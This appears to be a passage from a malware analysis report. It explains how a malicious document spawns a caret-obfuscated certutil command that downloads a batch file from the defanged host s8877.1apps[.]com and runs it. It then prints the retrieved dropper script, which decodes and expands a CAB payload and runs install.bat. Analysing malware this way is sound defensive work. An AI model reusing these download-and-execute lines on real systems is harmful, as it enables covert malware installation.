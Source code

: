 After this document is displayed, the malware will continue to execute the following command in a new process:





C: && cd %TEMP% && c^e^r^tutil -urlca^che -spl^it -f http://s8877.1apps[.]com/vip/1.txt && ren 1.txt 1.bat && 1.bat && exit




1

C: && cd %TEMP% && c^e^r^tutil -urlca^che -spl^it -f http://s8877.1apps[.]com/vip/1.txt && ren 1.txt 1.bat && 1.bat && exit





This command will download a remote file using the built-in Microsoft Windows certutil command. In this particular instance, the following script is retrieved:





@echo off

:if exist "%PROGRAMFILES(x86)%" (GOTO 64BITOS) ELSE (GOTO 32BITOS)

:32BITOS
certutil -urlcache -split -f http://s8877.1apps[.]com/vip/setup.txt > nul
certutil -decode -f setup.txt setup.cab > nul
del /f /q setup.txt > nul
GOTO ISEXIST

:64BITOS
:certutil -urlcache -split -f http://s8877.1apps[.]com/vip/setup2.txt > nul
:certutil -d^ecode -f setup2.txt setup.cab > nul
:del /f /q setup2.txt > nul
:GOTO ISEXIST

:ISEXIST

if exist "setup.cab" (GOTO EXECUTE) ELSE (GOTO EXIT)

:EXECUTE
ver | findstr /i "10\." > nul
IF %ERRORLEVEL% EQU 0 (GOTO WIN10) ELSE (GOTO OTHEROS)

:WIN10
expand %TEMP%\setup.cab -F:* %CD% > nul
:if exist "%PROGRAMFILES(x86)%" (rundll32 %TEMP%\drv.dll EntryPoint) ELSE (rundll32 %TEMP%\drv.dll EntryPoint)
%TEMP%\install.bat
GOTO EXIT

:OTHEROS
wusa %TEMP%\setup.cab /quiet /extract:%TEMP% > nul
%TEMP%\install.bat
GOTO EXIT
